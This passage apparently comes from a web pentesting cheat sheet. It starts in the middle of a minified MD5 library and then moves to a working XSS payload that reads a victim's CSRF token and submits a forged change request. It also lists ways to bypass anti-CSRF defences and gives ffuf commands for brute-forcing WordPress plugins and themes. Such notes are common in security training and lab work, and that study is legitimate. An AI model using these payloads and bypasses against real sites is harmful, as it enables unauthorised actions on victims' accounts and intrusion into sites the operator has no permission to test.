9),f=v(f,i,a,c,n[h+6],23,76029189),c=v(c,f,i,a,n[h+9],4,-640364487),a=v(a,c,f,i,n[h+12],11,-421815835),i=v(i,a,c,f,n[h+15],16,530742520),c=m(c,f=v(f,i,a,c,n[h+2],23,-995338651),i,a,n[h],6,-198630844),a=m(a,c,f,i,n[h+7],10,1126891415),i=m(i,a,c,f,n[h+14],15,-1416354905),f=m(f,i,a,c,n[h+5],21,-57434055),c=m(c,f,i,a,n[h+12],6,1700485571),a=m(a,c,f,i,n[h+3],10,-1894986606),i=m(i,a,c,f,n[h+10],15,-1051523),f=m(f,i,a,c,n[h+1],21,-2054922799),c=m(c,f,i,a,n[h+8],6,1873313359),a=m(a,c,f,i,n[h+15],10,-30611744),i=m(i,a,c,f,n[h+6],15,-1560198380),f=m(f,i,a,c,n[h+13],21,1309151649),c=m(c,f,i,a,n[h+4],6,-145523070),a=m(a,c,f,i,n[h+11],10,-1120210379),i=m(i,a,c,f,n[h+2],15,718787259),f=m(f,i,a,c,n[h+9],21,-343485551),c=d(c,r),f=d(f,e),i=d(i,o),a=d(a,u);return[c,f,i,a]}function i(n){for(var t="",r=32*n.length,e=0;e<r;e+=8)t+=String.fromCharCode(n[e>>5]>>>e%32&255);return t}function a(n){var t=[];for(t[(n.length>>2)-1]=void 0,e=0;e<t.length;e+=1)t[e]=0;for(var r=8*n.length,e=0;e<r;e+=8)t[e>>5]|=(255&n.charCodeAt(e/8))<<e%32;return t}function e(n){for(var t,r="0123456789abcdef",e="",o=0;o<n.length;o+=1)t=n.charCodeAt(o),e+=r.charAt(t>>>4&15)+r.charAt(15&t);return e}function r(n){return unescape(encodeURIComponent(n))}function o(n){return i(c(a(n=r(n)),8*n.length))}function u(n,t){return function(n,t){var r,e=a(n),o=[],u=[];for(o[15]=u[15]=void 0,16<e.length&&(e=c(e,8*n.length)),r=0;r<16;r+=1)o[r]=909522486^e[r],u[r]=1549556828^e[r];return t=c(o.concat(a(t)),512+8*t.length),i(c(u.concat(t),640))}(r(n),r(t))}function t(n,t,r){return t?r?u(t,n):e(u(t,n)):r?o(n):e(o(n))}"function"==typeof define&&define.amd?define(function(){return t}):"object"==typeof module&&module.exports?module.exports=t:n.md5=t}(this);
//# sourceMappingURL=md5.min.js.map
```

XSS + CSRF: copy csrf in XSS and send web page at victim.
```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```
**Bypasse CSRF**  
Setting the CSRF token value to the same length as the original CSRF token but with a different/random value may also bypass  
You can try making the CSRF token a null value (empty)  
Another anti-CSRF protection bypass is using the same CSRF token across accounts  
To bypass anti-CSRF protections, we can try changing the request method. From POST to GET and vice versa  
Delete the CSRF token parameter or send a blank token  
If an application is using the referrer header as an anti-CSRF mechanism, you can try removing the referrer header. Add the following meta tag to your page hosting your CSRF script. `<meta name="referrer" content="no-referrer"`  
Sometimes the Referrer has a whitelist regex or a regex that allows one specific domain. 

## *Top 14./ Wordpress*  

Can find version of wordpress, wp plugins,  in index.html source code:   
- `<meta name="generator" content="WordPress 5.3.3" />`  
- `<script type='text/javascript' src='http://blog.inlanefreight.com/wp-content/plugins/mail-masta/lib/subscriber.js?ver=5.3.3'></script>`  
- `<link rel='stylesheet' id='bootstrap-css'  href='http://blog.inlanefreight.com/wp-content/themes/ben_theme/css/bootstrap.css?ver=5.3.3' type='text/css' media='all' />`

brutforce plugins and themes
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/CMS/wp-plugins.FUZZ.txt -u http://example.com/FUZZ
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/CMS/wp-themes.FUZZ.txt -u http://example.com/FUZZ
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/CMS/wordpress.FUZZ.txt -u http://example.com/FUZZ
```
